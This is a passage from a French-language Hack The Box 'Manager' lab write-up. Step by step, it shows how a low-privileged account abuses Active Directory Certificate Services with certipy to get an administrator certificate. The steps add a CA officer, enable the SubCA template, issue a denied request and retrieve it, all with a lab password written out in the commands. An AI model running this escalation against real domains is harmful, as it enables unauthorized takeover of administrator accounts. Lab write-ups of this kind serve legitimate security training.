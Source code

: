 1. Vous vous accordez le droit d'accès `Manage Certificates` en ajoutant l'utilisateur en tant que nouvel "officer".

```
certipy ca -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -add-officer raven
```

![Add-officer-Raven](/images/HTB-Manager/CA1.png)

2. Le template `SubCA` peut être **activé sur l'AC** avec le paramètre `-enable-template`.

```
certipy ca -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -enable-template 'SubCA'
```

![Enable-SubCA](/images/HTB-Manager/CA2.png)

3. Nous commençons par demander un certificat basé sur le template SubCA. Cette demande sera refusée, mais nous enregistrerons la clé privée et noterons l'identifiant de la demande. Assurez-vous que vous exécutez la commande à partir d'un répertoire où vous avez des droits d'écriture, sinon le fichier `.key` ne sera pas enregistré.

```
certipy req -ca 'manager-DC01-CA' -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -template SubCA -upn administrator@manager.htb
```

![Certificate-private-key](/images/HTB-Manager/CA3.png)

4. Avec le `Request ID`, émettez un certificat. Vous le faites avec `-issue-request <request ID>`

```
certipy ca -ca 'manager-DC01-CA' -issue-request 24 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236
```

![Certificate-issued-successfully](/images/HTB-Manager/CA4.png)

5. Récupérez le certificat émis avec la commande `req` et le paramètre `-retrieve <request ID>`.

```
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -retrieve 24 -dc-ip 10.10.11.236
```

![Certificate-retrieved](/images/HTB-Manager/CA5.png)

6. L'exécution des commandes suivantes nécessitera une synchronisation d'horloge avec le contrôleur de domaine (DC). Pour que cela fonctionne, nous pouvons utiliser `ntpdate`.

> Cette étape est très sensible au temps, vous devez exécuter ces commandes rapidement. Si vous n'y arrivez pas, je vous recommande d'enchaîner les commandes après avoir exécuté `sudo ntpdate -u manager.htb`.

Si les commandes ne sont pas exécutées assez rapidement, cette erreur se produit.
